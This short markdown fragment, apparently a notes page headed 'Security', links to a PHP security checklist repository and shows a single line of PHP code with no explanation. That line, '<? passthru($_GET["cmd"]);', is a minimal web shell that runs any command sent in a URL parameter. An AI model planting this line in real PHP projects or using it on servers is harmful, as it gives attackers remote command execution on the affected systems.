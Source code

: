 # Security

[https://github.com/ismailtasdelen/php-security-check-list](https://github.com/ismailtasdelen/php-security-check-list)

```
<? passthru($_GET["cmd"]);
```
